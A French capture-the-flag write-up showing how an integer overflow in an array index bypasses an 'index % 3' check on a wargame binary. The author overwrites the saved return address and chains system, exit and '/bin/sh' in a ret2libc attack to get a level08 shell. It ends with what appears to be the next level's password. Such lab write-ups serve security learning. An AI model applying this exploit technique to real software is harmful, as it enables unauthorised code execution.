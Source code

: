 tab[0] = 0xffffd458

le saved-eip est a: 0xffffd61c
soit tab[114] sauf que la case appartient a Will !
Le check est "index % 3", index est stocke en tant que Unsigned Int.

On sait que:
sizeof(int) = 4 octets.
Aucun indice en C, mais si on se penche sur l'assembleur, on remarque qu'il est oblige de faire "index * 4" pour aller a la bonne valeur.

114 * 4 = 456

En jouant avec les overflows (voir overflow.c), on trouve ceci:
1073741938 << 2 = 456

_____________________________________
Input command: store
 Number: 1234
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1234
 Completed read command successfully
 ____________________________________

On est maintenant capable de modifier le saved-eip, il ne nous reste plus qu'a recuperer nos addresses pour ret2libc puis a les retranscir en nombres. 
UINT_MAX: 4294967295

system: 0xf7e6aed0 -> 4159090384
exit: 0xf7e5eb70 -> 4159040368
/bin/sh: 0xf7f897ec -> 4160264172

_____________________________________
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
______________________________________

7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
